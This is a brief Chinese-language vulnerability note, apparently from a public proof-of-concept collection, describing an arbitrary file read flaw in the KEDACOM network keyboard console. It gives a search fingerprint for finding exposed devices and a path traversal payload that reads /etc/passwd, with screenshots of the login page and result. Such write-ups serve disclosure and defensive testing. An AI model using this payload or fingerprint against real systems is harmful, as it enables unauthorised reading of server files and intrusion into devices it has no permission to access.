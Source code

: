 # 科达 网络键盘控制台 任意文件读取漏洞

## 漏洞描述

KEDACOM 网络键盘控制台存在任意文件读取漏洞，攻击这通过漏洞可以读取服务器任意信息

## 漏洞影响

```
KEDACOM 网络键盘控制台
```

## 网络测绘

```
"网络键盘控制台"
```

## 漏洞复现

登录页面

![image-20220525145610413](./images/202205251456491.png)

验证POC

```
/../../../../../../../../etc/passwd
```

![](./images/202205251456381.png)